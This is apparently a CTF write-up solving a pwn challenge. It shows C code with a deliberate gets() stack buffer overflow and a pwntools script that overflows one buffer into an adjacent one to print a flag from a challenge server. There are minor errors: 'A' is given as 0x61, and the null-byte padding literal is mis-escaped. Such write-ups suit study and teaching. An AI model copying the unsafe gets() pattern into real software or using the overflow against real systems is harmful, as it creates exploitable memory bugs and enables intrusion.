



# Words of Power Writeup

## Challenge Details
- **Event:** ISSessions Fantasy CTF
- **Category:** pwn
- **Author:** 3354
- **Description:** You've just defeated the Dark Wizards terrorizing new adventurers at the entrance to Letstone, and behind their summoning circle, you spot a chest, presumably filled with all sorts of loot. One problem, though. It looks like the chest is sealed with two sigils, each requiring one Word of Power. To make matters worse, it seems that one of the sigils is broken, and you have no way of providing it with a Word at all. Can you make it recognize your Word even without a direct way to provide it? Can you figure it out and get full marks?
- **Files provided:** `main.c`
-**Server provided:** `nc 0.cloud.chals.io 10629`

## Objective
Examine the provided c code and use the hosted server to find the hidden flag.

## Initial Analysis
I started my analysis by looking at main.c, I instantly noticed there was no way to enter the second word of power as no user input was requested after the second `puts`.
**Main.c**
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
  volatile char word_b[16] = {0};
  volatile char word_a[16] = {0};

  puts("Enter the first Word of Power: ");
  gets(word_a);
  puts("Enter the second Word of Power: ");
  // gets(word_b) // without the capacity to input the second Word,
                  // the party will never open the box!

  if (strcmp(word_a, "salvus") == 0 && strcmp(word_b, "silente") == 0) {
    puts("Opening the box! Here's your loot: ");
    system("cat flag.txt");
  } else {
    puts("The sigil stops glowing... Congrats, you bricked the seal.");
  }
  return 0;
}
```
While I know how to write and read c code, I have not looked into any of its exploitation capabilities. So my next though process was to start researching the functions used within the code. My first thought was using `volatile char word_b[16]` to somehow exploit memory allocation of this array (I was kind of right). I then moved on to `puts`, but with some fast research I was unable to find anything definitive. The next function used was `gets`, as soon as I looked up the function I was presented with a glaring issue with its functionality.

With this newfound knowledge I started thinking about ways I could exploit the buffer overflow capabilities `gets` provides.

## Solution
So I started my first attempt a buffer overflow by connecting to the server and filling the first array character with the first word and then characters to fill the buffer and allow us to enter the second words memory location. Unfortunately it was not this easy and I was still denied by the seal.



After my manual attempt failed I decided that a script would do a better job overflowing `gets`. Since this is a pwning challenge I decided to use a python script with the pwntools library. I once again attempted padding the array with A (0x61), but realized after it failed that the `strcmp` was reading A as part of the string. This realization is what allowed me to solve the challenge, I instead padded the string with with null bytes as seen in my script here.
**script.py**
```
from pwn import *
HOST = '0.cloud.chals.io'
PORT = 10629
io = remote(HOST, PORT)


word_a_val = b"salvus"


padding = b"\\x00" * (16 - len(word_a_val))


word_b_val = b"silente"


payload = word_a_val + padding + word_b_val


io.recvuntil(b"Enter the first Word of Power: ")
io.sendline(payload)


print(io.recvall().decode())
```

I then ran this script which resulted in securing the flag of this challenge.
